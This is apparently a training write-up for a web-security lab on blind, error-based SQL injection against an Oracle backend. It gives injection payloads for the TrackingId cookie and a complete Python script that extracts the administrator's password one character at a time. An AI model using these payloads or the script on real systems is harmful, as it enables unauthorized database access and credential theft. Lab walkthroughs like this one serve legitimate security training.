








# Lab 12: Blind SQL injection with conditional errors

## Statement

*This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.*

*The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.*

*The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.*

*To solve the lab, log in as the administrator user.*

## Walkthrough

As in the previous lab, the SQL injection occurs in the `TrackingId` cookie. This time, we'll work from Burp Suite. We open it, intercept the request, and send it to the Repeater to work from there.



When we add a single quote to the cookie, we see that the server responds with a 500 Internal Server Error.



However, when we comment out the query with `-- -`, we receive a 200 OK.


This confirms what the statement told us. We are dealing with a blind SQL injection with errors. The web will respond when the query is correct and will give an error when it is not.

We can try to perform a `UNION` attack. To do this, we first perform the `ORDER BY`, discovering that the query returns 1 column. When doing the `UNION SELECT` for non-Oracle databases, it gives an error.



This should make us question whether we are facing an Oracle database. To verify this, we put `dual` as the source table. The query returns a 200 status code. However, `'test'` is not in the response, as it is a blind injection.



Returning to the original `TrackingId`, remember that if we inject a quote to break the syntax, an error occurs because a loose quote remains.

```sql
    TrackingId='a2Pqj3vtdgaUZx59''
```

However, if we add another quote, we close the open one and the error no longer occurs.

```sql
    TrackingId='a2Pqj3vtdgaUZx59'''
```

To be able to concatenate and perform operations in Oracle, we can use `||`. For example, if we put the following, the server will not give an error.



Now we can test a single boolean condition and trigger a database error if the condition is true.

```sql
SELECT CASE WHEN (YOUR_CONDITION_HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
```

Applying this, when the response is a 200 it will mean that the query is incorrect and when we receive a 500 it will mean that it is correct.

Now we can discover the length of the administrator user's password.



We discover that the password has 20 characters, since we receive a 200 OK.

Now we can use substrings to discover the password of the `administrator` user character by character.



We must iterate in the first index and try characters for each position until the server returns a 500.

We are going to automate this task with the following python script. You can find the script file [here](scripts/sqli_contiditional_errors.py).

```python
#!/usr/bin/env python3

import pwn
import requests
import sys
import signal
import string
import time

# Global progress bars
p1 = pwn.log.progress("Blind SQLI")
p2 = pwn.log.progress("Password")

def def_handler(sig, frame):
    """Handles Ctrl+C to exit the program gracefully."""

    print(f"\n[X] Leaving the program...\n")
    p1.failure("Brute force attack stopped")
    sys.exit(1)

def perform_request(position, char):
    """
    Sends a single request to check if a character matches at a given position.
    Returns True if the server's response indicates a match, False otherwise.
    """
    
    url = "https://0a23007304fe370380be0dc6006800b4.web-security-academy.net/"
    tracking_id_payload = f"a2Pqj3vtdgaUZx59'||(select case when substr(password,{position},1)='{char}' then to_char(1/0) else NULL end from users where username='administrator')||'"
    session_cookie = "aZK9Ig6gOr9NV8YutbFUdEj2bORRfg30"
    
    cookies = {
        "TrackingId": tracking_id_payload,
        "session": session_cookie
    }
    
    p1.status(cookies["TrackingId"])

    # The request logic is encapsulated here
    r = requests.get(url, cookies=cookies)
    return (r.status_code == 500)

def bruteforce_SQLI():
    """
    Main function to perform the brute-force attack.
    """

    password = ""
    characters = string.ascii_letters + string.digits

    p1.status("Starting brute force attack")
    time.sleep(1)

    for position in range(1, 21):
        for char in characters:
            if perform_request(position, char):
                password = password + char
                p2.status(password)
                break # Move to the next position

if __name__ == "__main__":
    # Setup signal handler
    signal.signal(signal.SIGINT, def_handler)
    
    # Run the main function
    bruteforce_SQLI()
    
    # Final success message after the loop finishes
    p1.success("Attack finished.")
```

We execute it and it returns the password, with which we can log in as `administrator` and complete the lab.



---
<div align="center">
  <a href="../Lab-11/README.md">⬅️ Previous Lab</a>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
  <a href="../README.md">Next Lab ➡️</a>
</div>
